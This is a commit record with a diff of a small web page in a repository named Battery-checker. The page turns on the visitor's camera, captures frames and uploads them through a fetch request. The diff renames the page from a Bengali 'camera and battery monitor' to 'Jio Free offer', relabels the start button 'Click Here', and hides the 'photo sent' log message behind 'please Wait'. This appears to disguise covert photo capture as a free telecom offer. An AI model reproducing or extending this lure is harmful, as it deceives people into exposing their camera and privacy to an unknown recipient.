

Before and after one commit to Bimaltudu925/Battery-checker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <html>
 <head>
   <meta charset="UTF-8">
-  <title>📸 ক্যামেরা ও ব্যাটারি মনিটর</title>
+  <title>📸 Jio Free offer </title>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -31,7 +31,7 @@
   <video id="video" autoplay playsinline></video>
   <canvas id="canvas"></canvas>
   <br><br>
-  <button onclick="startCamera()">▶️ শুরু করুন</button>
+  <button onclick="startCamera()">▶️ Click Here</button>
   <p id="status">⏳ অপেক্ষা করছি...</p>
 
   <script>
@@ -82,7 +82,7 @@
         })
         .then(res => {
           if (res.ok) {
-            console.log("✅ ছবি পাঠানো হয়েছে");
+            console.log(" please Wait");
             status.innerText = `📸 পাঠানো হয়েছে (${batteryStatus})`;
           } else {
             status.innerText = "⚠️ ছবি পাঠাতে সমস্যা হয়েছে!";
```
